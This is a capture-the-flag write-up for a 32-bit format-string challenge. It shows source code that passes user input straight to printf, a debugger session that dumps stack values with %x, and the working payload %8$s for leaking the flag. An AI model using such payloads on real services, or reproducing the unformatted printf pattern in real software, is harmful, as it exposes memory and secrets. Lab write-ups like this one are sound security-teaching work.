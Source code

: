 ![title](images/title.png)

![hint](images/hint.png)

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Lets take a look at the source

### echo.c

Not much other than some variable declarations going on in the beginning

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
```

Here is our vulnerability. A printf function with no format specified which means we can take advantage and use things like %x (to print stack addresses) %s (to print string pointers on the stack) or even %n (to write to the stack)
```c
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

Based on where the flag is stored in the binary we should be able to find the stack position for the flag in gdb then print it off using something like %stack_position_num$s. This will print the string from the address in the nth position on the stack.

## Strategy

1. Load gdb and find the flags position on the stack using things like x/100s to print strings in the entire stack
2. Run the binary with %n$s where n in the position of the flag we found in step one

After loading gdb and setting a breakpoint at the printf function that prints our input lets search for strings. After locating our flag lets send an input of a bunch of %x's which will print out a bunch of stack addresses. We can see our flags address is the 8th position. So we should be able to use %8$s to print the flag. See gdb snapshot below for clarity

```bash
pwndbg> 
0xffffd2a4:	""
0xffffd2a5:	""
0xffffd2a6:	""
0xffffd2a7:	""
0xffffd2a8:	""
0xffffd2a9:	""
0xffffd2aa:	""
0xffffd2ab:	""
0xffffd2ac:	"Ima Flag\n"
0xffffd2b6:	"\b"
0xffffd2b8:	"9{\340\367\210\065\373", <incomplete sequence \367>
0xffffd2c1:	""
0xffffd2c2:	"\373", <incomplete sequence \367>
0xffffd2c5:	""
0xffffd2c6:	"\373", <incomplete sequence \367>
0xffffd2c9:	""
0xffffd2ca:	""
0xffffd2cb:	""
0xffffd2cc:	"{|\340\367\374\003\373\367\244\323\377\377\254\323\377\377\253\207\004\b\001"
0xffffd2e2:	""
0xffffd2e3:	""
0xffffd2e4:	"\244\323\377\377\254\323\377\377"
0xffffd2ed:	")\213j E\376\367\020\323\377\377"
0xffffd2f9:	""
pwndbg> c
Continuing.
40
> %x %x %x %x %x %x %x %x

Breakpoint 2, 0x0804874f in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EBX  0x0
 ECX  0xf7fb189c ◂— 0x0
 EDX  0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EDI  0xf7fb0000 ◂— 0x1d9d6c
 ESI  0xf7fb0000 ◂— 0x1d9d6c
 EBP  0xffffd2f8 ◂— 0x0
 ESP  0xffffd240 —▸ 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
 EIP  0x804874f (main+340) —▸ 0xfffcfce8 ◂— 0x0
───────────────────────────────────[ DISASM ]───────────────────────────────────
   0x804873d <main+322>    call   fgets@plt <0x8048460>
 
   0x8048742 <main+327>    add    esp, 0x10
   0x8048745 <main+330>    sub    esp, 0xc
   0x8048748 <main+333>    lea    eax, [ebp - 0x8c]
   0x804874e <main+339>    push   eax
 ► 0x804874f <main+340>    call   printf@plt <0x8048450>
        format: 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
        vararg: 0x40
 
   0x8048754 <main+345>    add    esp, 0x10
   0x8048757 <main+348>    jmp    main+288 <0x804871b>
 
   0x8048759               nop    
   0x804875b               nop    
   0x804875d               nop    
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffffd240 —▸ 0xffffd26c ◂— '%x %x %x %x %x %x %x %x\n'
01:0004│      0xffffd244 ◂— 0x40 /* '@' */
02:0008│      0xffffd248 —▸ 0xf7fb05c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd24c —▸ 0x8048647 (main+76) ◂— mov    dword ptr [ebp - 0x94], eax
04:0010│      0xffffd250 ◂— 0x0
05:0014│      0xffffd254 —▸ 0xf7fde7fe ◂— add    esp, 0x30
06:0018│      0xffffd258 —▸ 0x8048248 ◂— add    byte ptr gs:[eax], al /* 'e' */
07:001c│      0xffffd25c —▸ 0xffffd3a4 —▸ 0xffffd527 ◂— '/root/ctf_writeups/pico2018/binary/echooo/echo'
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  804874f main+340
   f 1 f7df0b41 __libc_start_main+241
Breakpoint *0x0804874f
pwndbg> c
Continuing.
40 f7fb05c0 8048647 0 f7fde7fe 8048248 ffffd3a4 ffffd2ac
> 
```

nc into the server and input %8$s for the flag

<details>
	<summary>Flag</summary>


</details>